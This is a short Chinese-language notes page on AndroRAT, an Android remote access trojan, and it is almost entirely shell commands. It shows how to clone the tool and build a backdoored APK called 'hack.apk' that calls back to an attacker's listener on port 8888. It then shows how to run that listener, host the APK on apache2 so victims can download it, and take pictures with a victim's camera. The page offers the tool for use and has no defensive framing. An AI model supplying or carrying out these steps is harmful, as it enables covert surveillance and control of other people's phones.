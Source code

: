 ```yaml
---
title: 01.AndroRAT
description: android远程管理工具
published: 1
date: 2023-04-29T17:49:09.192Z
tags: web tools
editor: markdown
dateCreated: 2023-04-19T17:49:03.242Z
---
```


<center>AndroRAT</center>



[toc]





### AndroRAT

> 一个简单的使用套接字的android远程管理工具 [github](https://github.com/karma9874/AndroRat)



```shell
# 下载
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```



### 1. 使用

```shell
# 生成apk  
python3 androRAT.py --build -i 192.168.1.10 -p 8888 -o hack.apk

# 监控端
python3 
python3 androRAT.py --shell -i 0.0.0.0 -p 8888

# 开启apche2 让用户可以网站下载apk
sudo systemctl start apache2.service
# 安装打开 提示连接到客户了

help # 查看帮助文档
# 相机
acmList   takepic 0
```

